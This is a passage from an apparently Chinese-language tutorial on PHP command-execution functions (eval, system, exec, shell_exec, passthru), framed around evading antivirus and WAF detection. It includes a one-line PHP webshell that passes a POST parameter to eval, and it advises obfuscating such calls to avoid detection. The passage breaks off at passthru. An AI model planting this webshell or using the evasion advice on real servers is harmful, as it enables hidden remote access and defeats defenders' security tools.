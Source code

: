 ### 3.0 Tips

命令执行类函数在”某些情况“下是非常危险的，所以往往遭到杀毒软件和WAF的重点关注，所以在做免杀的时候，为了绕过污点检测往往都要将命令执行类函数进行拼接、重组、加密、混淆来规避查杀。

### 3.1 eval()

**`eval()` 函数把字符串按照 PHP 代码来计算，即执行PHP代码**

Demo：将其中的内容按照PHP代码执行

```php
echo 'echo "我想学php"';     //echo "我想学php"
eval('echo "我想学php";');   //"我想学php"
```

Demo：一句话木马将参数传到 `eval()`  函数内执行

```php
@eval($_POST['AabyssTeam']);
```

### 3.2 system()

**`system()` 函数的主要功能是在系统权限允许的情况下，执行系统命令（Windows系统和Linux系统均可执行）**

Demo：执行Whoami并回显

```php
system('whoami');
```

### 3.3 exec()

**`exec()` 函数可以执行系统命令，但它不会直接输出结果，而是将执行的结果保存到数组中**

Demo：将 `exec()` 函数执行的结果导入result数组

```php
exec( 'ls' , $result );
print_r($result);        //Array ( [0] => index.php )
```

### 3.4 shell_exec()

**`shell_exec()` 函数可以执行系统命令，但不会直接输出执行的结果，而是返回一个字符串类型的变量来存储系统命令的执行结果**

Demo：执行 `ls` 命令

```php
echo shell_exec('ls');    //index.php
```

### 3.5 passthru()

**`passthru()` 函数可以执行系统命令并将执行结果输出到页面中**

与 `system()` 函数不同的是，它支持二进制的数据，使用时直接在参数中传递字符串类型的系统命令即可 

Demo：执行 `ls` 命令
